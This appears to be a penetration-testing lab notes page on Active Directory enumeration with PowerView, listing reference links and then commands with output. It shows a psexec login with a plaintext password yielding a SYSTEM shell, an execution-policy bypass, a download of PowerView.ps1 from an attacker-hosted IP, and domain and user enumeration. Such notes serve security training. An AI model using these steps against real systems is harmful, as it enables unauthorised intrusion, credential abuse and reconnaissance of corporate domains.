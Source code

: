 > ### 参考URL
> - https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview
> - https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
> - https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#using-powerview
> - https://nored0x.github.io/red-teaming/active-directory-domain-enumeration-part-1/


# PowerView

## Get the initial shell
```
┌──(kali㉿kali)-[~]
└─$ psexec.py david:dsfdf34534tdfGDFG5rdgr@10.11.1.120

C:\Windows\system32> whoami
nt authority\system
```

## Spawing the PowerShell
```
C:\Windows\system32> powershell -ep bypass

PS C:\Windows\Temp> Invoke-Webrequest -OutFile PowerView.ps1 -Uri http://192.168.119.249/PowerView.ps1
PS C:\Windows\Temp> Import-Module .\PowerView.ps1
```

## Domain name and Domain Controller name
```
PS C:\Windows\Temp> Get-NetDomain

Forest                  : xor.com
DomainControllers       : {xor-dc01.xor.com}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : xor-dc01.xor.com
RidRoleOwner            : xor-dc01.xor.com
InfrastructureRoleOwner : xor-dc01.xor.com
Name                    : xor.com
```

## User enum
```
PS C:\Windows\Temp> Get-NetUser | select cn

Administrator  
Guest          
krbtgt         
Chris          
Pedro          
Maria          
Bob            
Ralph          
Bethany        
Bruce          
Sherlock       
Nicky          
Jeff           
Harry          
Kevin          
```